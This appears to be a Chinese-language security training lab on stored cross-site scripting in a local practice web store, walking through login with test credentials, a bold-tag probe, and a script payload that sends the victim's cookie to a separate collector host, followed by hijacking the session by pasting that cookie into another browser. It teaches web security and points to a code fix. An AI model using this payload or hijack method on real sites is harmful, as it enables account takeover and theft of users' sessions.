




# A7: Cross-Site Scripting (XSS)

## 目標

>Stored XSS，在產品使用者留言備註中，輸入 JavaScript ，引發 Stored XSS 的問題

## 練習步驟

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

2. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

3. 按下 「**Login**」 Button

4. 在商品「**活性碳口罩**」按下「**Detail**」Button

5. 按下「**Vote for the 活性碳口罩**」Button

6. 在 textArea 中輸入

    ```html
    <b>rainmaker</b>
    ```

    

7. 按下「**Vote**」Button後，可以發現畫面中顯示的是粗體字的 rainmaker。這就表示這裡有 Stored XSS 的問題。

    

8. 接下來回到商品列表，點選「**N95 口罩**」的 「**Detail**」Button

9. 按下「**Vote for the N95 口罩**」Button

10. 在 textArea 中輸入

    ```html
    <script>location.href="http://localhost:53441/cookies/?c="+encodeURIComponent(document.cookie);</script>
    ```

    

11. 按下「**Vote**」Button後，可以發現，網頁已導到了惡意網站 **<http://localhost:53441/cookies/>**，並有 MyStore 的 cookie 資料。

    

12. 開啟 Edge ，在 Url 中輸入 **<http://localhost:44375>**

13. 在 Edge 上按右鍵，選取「**Inspect**」，在開發者工具中，切到「**Application**」，點選左方 **Cookies** 下的 **<http://localhost:44375>**後，在右邊空白列新增 Cookie 名稱為 **authcookie** ，值從 **<http://localhost:53441/cookies/>** 畫面上Copy 過來貼上。

14. 在 Edge 上按下重新整理，就可以發現透過 rainmaker 登入

>修正請參考 todo: Session-8.2 (Detail.cshtml) 及 todo: Session-8.1 (List.cshtml)

[Back](./../../readme.md)
